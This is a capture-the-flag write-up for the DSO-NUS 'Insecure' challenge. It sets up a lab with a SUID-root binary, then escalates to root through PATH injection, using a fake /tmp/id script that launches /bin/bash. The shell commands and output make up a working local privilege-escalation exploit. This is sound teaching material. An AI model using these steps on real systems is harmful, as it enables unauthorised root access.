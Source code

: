 ```yaml
---
title: DSO NUS CTF - Insecure
date: 2021-08-02 17:19:00 +0800
categories: [ctf]
tags: [linux, suid]
---
```


# Description

> Someone once told me that SUID is a bad idea. Could you show me why?
> 
> This challenge server can be accessed here:
> 
> (Any one of the options below is fine)
> (Suggested access via '`nc`')  
> `nc ctf-85ib.balancedcompo.site 9999`  
> `nc ctf-sn3y.balancedcompo.site 9999`  
> `nc ctf-rv6w.balancedcompo.site 9999`  
> `nc ctf-ptb1.balancedcompo.site 9999`  
> `nc ctf-f3jj.balancedcompo.site 9999`  
> `nc ctf-4q22.balancedcompo.site 9999`  
> `nc ctf-7jca.balancedcompo.site 9999`  
> `nc ctf-ea38.balancedcompo.site 9999`  
> `nc ctf-jfi4.balancedcompo.site 9999`  
> `nc ctf-ks5n.balancedcompo.site 9999`  
> 
> Files (Any of the links are fine):  
> [insecure](/assets/misc/insecure)
> 
> *Debug the Pwn challenges locally on your system before connecting to the remote challenge server to exploit and get the flag.
> 
> Flag format conversion may have to be done for this challenge (Refer to notifications)

# Recreating the environment

Note: Make sure to run the below commands as `root`.

## 1. Creating a fake flag

There was a file called `flag.txt`, which contained the flag and was located at the root directory so lets create it.

```bash
$ echo -n "DSO-NUS{FAKE_FLAG}" > /flag.txt
```

Make sure that no other users are able to read it.

```bash
$ chmod 700 /flag.txt
```

## 2. Installing the `insecure` binary 

Download the `insecure` binary from any of the download links and copy it to the `/bin` directory.

```bash
$ cp /root/Downloads/insecure /bin/insecure
```

Assign the appropriate permissions and set the owner to `root`.

```bash
$ chown root:root /bin/insecure
$ chmod 755 /bin/insecure
```

Make sure to also set the `SUID` bit.

```bash
$ chmod u+s /bin/insecure
```

Verify that the permissions should look like this:

```bash
$ ls -al /bin/insecure             
-rwsr-sr-x 1 root root 6848 Mar  5 09:35 /bin/insecure
```

## 3. Logging in as an unprivileged user

Create a new user that the contestants will privilege escalate from.

```bash
$ useradd -s /bin/bash unprivileged
```

Switch user to this new user before starting the challenge.

```bash
$ su unprivileged
```

# Solution

After `nc`-ing to any one of the endpoints, we instantly get a shell as a low-privileged user.

```bash
unprivileged@kali:/$ id
uid=1001(unprivileged) gid=1001(unprivileged) groups=1001(unprivileged)
```

In the root directory, we see that there is a file called `flag.txt` but we did not have the permissions to read it.

```bash
unprivileged@kali:/$ ls -al /flag.txt
-rwx------ 1 root root 18 Mar  5 09:46 /flag.txt
unprivileged@kali:/$ cat /flag.txt
cat: /flag.txt: Permission denied
```

In the `/bin` directory, there was a binary called `insecure`, which did not seem like something that you normally see on Linux systems.

```bash
unprivileged@kali:/$ ls -al /bin/insecure
-rwsr-sr-x 1 root root 6848 Mar  5 09:35 /bin/insecure
```

We see that we have the permission to execute it so lets try executing it.

```bash
unprivileged@kali:/$ /bin/insecure
I am a SUID binary and can run in varying levels of privilege!

Now, I run in a less privileged context.
uid=1001(unprivileged) gid=1001(unprivileged) groups=1001(unprivileged)

Next, I wil run in a more privileged context.
uid=0(root) gid=1001(unprivileged) groups=1001(unprivileged)

Once I am done, as a good practice, I should return my privileges.
And I run in a less privileged context again.
uid=1001(unprivileged) gid=1001(unprivileged) groups=1001(unprivileged)
```

On closer inspection of the output, we can break down what it is actually doing:

1. In the current low-privileged context, it runs the `id` command.
2. It then shifts to a high-privileged context and runs the `id` command again to show that it is running as `root`.
3. It then shifts back to the low-privileged context and runs the `id` command to show that it has returned back to the original context.

This is actually made possible due to the `SUID` bit that was set on the `insecure` binary which can be seen in the `s` in the permissions.

```bash
unprivileged@kali:/$ ls -al /bin/insecure
-rwsr-xr-x 1 root root 6848 Mar  5 09:35 /bin/insecure
```

The `SUID` bit allows other users to run the `insecure` binary as the owner of the file, which in this case is `root`.

To better understand the underlying implementation of the `insecure` binary, we can retrieve a copy of it from the download links provided and run the `ltrace` command to list out the library calls performed by the binary.

```bash
$ ltrace insecure 
...
system("id"uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer),998(docker)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                   
...
system("id"uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer),998(docker)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                   
...
system("id"uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer),998(docker)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                           = 0
+++ exited (status 0) +++
```

We see that the `id` command was indeed being executed via the `system()` library call, but note that the path of the `id` command is not absolute. 
This means we can perform `PATH` injection to trick the system into running an `id` binary of our choice.

In the shell as the unprivileged user, create a file called `id` in the `/tmp` directory and enter `/bin/bash` into it.

```bash
unprivileged@kali:/$ echo "/bin/bash" > /tmp/id
```

Assign the appropriate permission to make sure any users are able to execute it.

```bash
unprivileged@kali:/$ chmod 777 /tmp/id
```

Now run the `insecure` binary but alter the `PATH` variable such that the system will look for the `id` binary from `/tmp` first.

```bash
unprivileged@kali:/$ PATH=/tmp:$PATH /bin/insecure
I am a SUID binary and can run in varying levels of privilege!

Now, I run in a less privileged context.
unprivileged@kali:/$
```

Enter `exit` and we will get a shell as `root`.

```bash
unprivileged@kali:/$ exit
exit

Next, I wil run in a more privileged context.
root@kali:/# /usr/bin/id
uid=0(root) gid=1001(unprivileged) groups=1001(unprivileged)
```

We can now read the contents of the flag.

```bash
root@kali:/# cat /flag.txt
DSO-NUS{FAKE_FLAG}
```